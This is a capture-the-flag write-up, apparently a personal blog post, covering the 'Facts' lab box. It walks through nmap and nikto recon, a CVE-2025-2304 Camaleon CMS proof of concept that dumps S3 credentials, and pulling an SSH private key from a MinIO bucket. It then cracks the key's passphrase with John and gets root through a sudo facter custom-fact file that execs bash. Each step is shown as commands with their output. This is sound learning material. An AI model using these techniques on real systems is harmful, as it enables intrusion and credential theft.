




**Difficulty:** Easy · **OS:** Linux

## Intro

This is the second box I've worked through. It's rated Easy like Cap, but unlike Cap there's no guided format to lean on here — this one I had to do solo style. That meant a lot more getting lost, researching things I'd never touched before, and stitching the pieces together myself. A couple of the steps (AWS/S3 tooling and the `facter` privesc) were brand new to me. Here's how it went.

## Recon

Ran an initial nmap scan to see what I'm working with.

```text
┌──(d3vilsec㉿kali)-[~]
└─$ nmap -sV -sC 10.129.11.210
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-07 19:20 -0700
Nmap scan report for 10.129.11.210
Host is up (0.086s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.9p1 Ubuntu 3ubuntu3.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4d:d7:b2:8c:d4:df:57:9c:a4:2f:df:c6:e3:01:29:89 (ECDSA)
|_  256 a3:ad:6b:2f:4a:bf:6f:48:ac:81:b9:45:3f:de:fb:87 (ED25519)
80/tcp open  http    nginx 1.26.3 (Ubuntu)
|_http-server-header: nginx/1.26.3 (Ubuntu)
|_http-title: Did not follow redirect to http://facts.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Two ports open: SSH (22) and an nginx HTTP server on 80. The HTTP title tells me it wants to redirect to `facts.htb`, so I'll need that name to resolve. Browsing to the page first:



Added an entry to `/etc/hosts` so the vhost resolves properly:

```text
10.129.11.210 facts.htb
```



## Enumerating the web app

I tried fuzzing with `ffuf`, but got back an insane amount of `302` responses — not a useful signal, so that wasn't the way in. Instead of brute-forcing paths, I dropped back to learning more about the site itself with `nikto`.

```text
┌──(d3vilsec㉿kali)-[~]
└─$ nikto -h http://facts.htb
...
+ Server: nginx/1.26.3 (Ubuntu)
+ [999100] /: Uncommon header(s) 'plugin_front_cache' found, with contents: TRUE.
+ [000427] /server-status: Link header(s) ... /assets/themes/camaleon_first/assets/css/main-...css ...
+ [002743] /.bash_history: A user's home directory may be set to the web root...
+ [002757] /.ssh: A user's home directory may be set to the web root, an ssh file was retrieved.
...
```

Two things jumped out. First, `nikto` flagged that a user's home directory looks like it's been set under the web root. Second — and the real lead — the asset paths reference a `camaleon_first` theme. This is **Camaleon CMS**.

The admin console let me self-register through a *Create an Account* link, so I made a throwaway `test` / `test` account.



Once logged in, the version is right there: **Camaleon CMS 2.9.0**.



A known version number is exactly what you want — time to go hunting for a public exploit.

## CVE-2025-2304 — leaking S3 credentials

Camaleon CMS 2.9.0 is vulnerable to **CVE-2025-2304**, an authenticated privilege-escalation bug. I used [AlienOne's PoC](https://github.com/Alien0ne/CVE-2025-2304), which elevates the low-priv account to admin and then dumps the app's configured S3 credentials.

```text
└─$ python3 ./Downloads/exploit.py -u http://facts.htb -U test -P test -e
[+]Camaleon CMS Version 2.9.0 PRIVILEGE ESCALATION (Authenticated)
[+]Login confirmed
   User ID: 5
   Current User Role: admin
[+]Loading PRIVILEGE ESCALATION
   User ID: 5
   Updated User Role: admin
[+]Extracting S3 Credentials
   s3 access key: AKIA2CD65746537B2692
   s3 secret key: jcnPH3XIHIq6Ap873d4/EAbZPWfbj3HLBLxhVTPU
   s3 endpoint: http://localhost:54321
[+]Reverting User Role
```

Honestly, this is where I got stuck for a while. I had a set of S3 keys and an endpoint and no idea what to do with them. I'd never worked with S3 before, so I had to go read up on what S3 even is and how you talk to it. The answer: the `aws` CLI, pointed at the box's own S3 endpoint (port `54321`).

## Looting the S3 bucket

Configured a profile with the leaked keys and listed the buckets through the box's endpoint:

```text
┌──(d3vilsec㉿kali)-[~]
└─$ aws configure --profile facts
AWS Access Key ID [None]: AKIA2CD65746537B2692
AWS Secret Access Key [None]: jcnPH3XIHIq6Ap873d4/EAbZPWfbj3HLBLxhVTPU
Default region name [None]:
Default output format [None]:

┌──(d3vilsec㉿kali)-[~]
└─$ aws --profile facts --endpoint-url=http://facts.htb:54321 s3 ls
2025-09-11 05:06:52 internal
2025-09-11 05:06:52 randomfacts
```

The `internal` bucket looks like someone's home directory — and it has a `.ssh/` folder.

```text
┌──(d3vilsec㉿kali)-[~]
└─$ aws --profile facts --endpoint-url=http://facts.htb:54321 s3 ls internal
                           PRE .bundle/
                           PRE .cache/
                           PRE .ssh/
2026-01-08 10:45:13        220 .bash_logout
2026-01-08 10:45:13       3900 .bashrc
2026-01-08 10:47:17         20 .lesshst
2026-01-08 10:47:17        807 .profile

┌──(d3vilsec㉿kali)-[~]
└─$ aws --profile facts --endpoint-url=http://facts.htb:54321 s3 ls internal/.ssh/
2026-06-07 19:19:53         82 authorized_keys
2026-06-07 19:19:53        464 id_ed25519
```

A private key. Pulled it down:

```text
┌──(d3vilsec㉿kali)-[~]
└─$ aws --profile facts --endpoint-url=http://facts.htb:54321 s3 cp s3://internal/.ssh/id_ed25519 ./id_ed25519
download: s3://internal/.ssh/id_ed25519 to ./id_ed25519
```

## Cracking the key passphrase

The key turned out to be passphrase-protected (and `ssh-keygen` complained about permissions first, so a quick `chmod 600`):

```text
┌──(d3vilsec㉿kali)-[~]
└─$ chmod 600 id_ed25519
┌──(d3vilsec㉿kali)-[~]
└─$ ssh-keygen -y -f id_ed25519
Enter passphrase for "id_ed25519":
```

Threw it at John the Ripper with rockyou:

```text
┌──(d3vilsec㉿kali)-[~]
└─$ ssh2john id_ed25519 > hash.txt
┌──(d3vilsec㉿kali)-[~]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
...
dragonballz      (id_ed25519)
1g 0:00:01:32 DONE (2026-06-08 10:18) ...
Session completed.
```

Passphrase is `dragonballz`. Unlocking the key reveals the owner in the comment field:

```text
┌──(d3vilsec㉿kali)-[~]
└─$ ssh-keygen -y -f id_ed25519
Enter passphrase for "id_ed25519":
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPiQe3iMlyEc/KW13EGRmOhoom/L7n8zNXJx2XXSt4f6 trivia@facts.htb
```

## Getting a shell

The key belongs to `trivia`. SSH in:

```text
┌──(d3vilsec㉿kali)-[~]
└─$ ssh -i id_ed25519 trivia@facts.htb
Enter passphrase for key 'id_ed25519':
...
Welcome to Ubuntu 25.04 (GNU/Linux 6.14.0-37-generic x86_64)
...
trivia@facts:~$
```

We're in. Poking around `/home`, the permissions on `william`'s directory are loose enough to read:

```text
trivia@facts:~$ ls -l /home
total 8
drwxr-x--- 6 trivia  trivia  4096 May 13 13:21 trivia
drwxr-xr-x 2 william william 4096 Jan 26 11:40 william
trivia@facts:~$ ls -l /home/william
total 4
-rw-r--r-- 1 root william 33 Jun  8 02:20 user.txt
trivia@facts:~$ cat /home/william/user.txt
[REDACTED]
```

User flag down.

## Privilege escalation — sudo facter custom fact

Checked `trivia`'s sudo rights:

```text
trivia@facts:~$ sudo -l
Matching Defaults entries for trivia on facts:
    env_reset, mail_badpass, secure_path=..., use_pty

User trivia may run the following commands on facts:
    (ALL) NOPASSWD: /usr/bin/facter
```

`facter` was new to me — it's a Puppet tool that gathers and reports hardware/network/OS data about a system. The `--help` output had the lead I needed:

```text
           [--custom-dir]                 A directory to use for custom facts.
```

Facter loads "custom facts" — Ruby files — from a directory you point it at. Since I can run `facter` as root with no password, a custom fact that just execs a shell runs as root. I dropped a one-line Ruby file and pointed `--custom-dir` at it:

```text
trivia@facts:~$ cat /tmp/d3vilsec/exploit.rb
exec "/bin/bash"
trivia@facts:~$ sudo facter --custom-dir /tmp/d3vilsec
root@facts:/home/trivia#
```

Root. Grabbed the final flag:

```text
root@facts:/home/trivia# cat /root/root.txt
[REDACTED]
```

## Takeaways

- **Don't brute-force when you can fingerprint.** `ffuf` was a dead end here; `nikto` reading the asset paths handed me the exact CMS and theme, and the version was sitting in the admin panel. A known version number turns recon into a CVE lookup.
- **CVE-2025-2304** in Camaleon CMS 2.9.0 escalates a self-registered account to admin and leaks the app's S3 credentials — a reminder that app secrets stored server-side are only one bug away from exposure.
- The S3 endpoint was an internal **MinIO** instance, and a private SSH key sitting in a bucket is game over. Misconfigured object storage is a goldmine.
- The root cause of the privesc is a dangerous **sudo entry**: any binary that loads user-supplied code (here `facter --custom-dir`) is effectively a root shell. [GTFOBins](https://gtfobins.github.io/) is the first place to check any binary you can run with sudo.

## Conclusion

Facts was a good step up from Cap because there was no hand-holding — I had to figure out the path myself, and a big chunk of that was researching things I'd never seen before. First time touching the **AWS/S3 CLI**, first time abusing **`facter`** for privesc. I got genuinely lost after dumping the S3 keys and had to stop and learn what S3 even was before I could move.

The real lesson from this one is about *researching the unknown* efficiently. When I hit `facter`, knowing to check **GTFOBins** for a way to abuse a misconfigured binary is exactly the reflex I want to build. On to the next one.
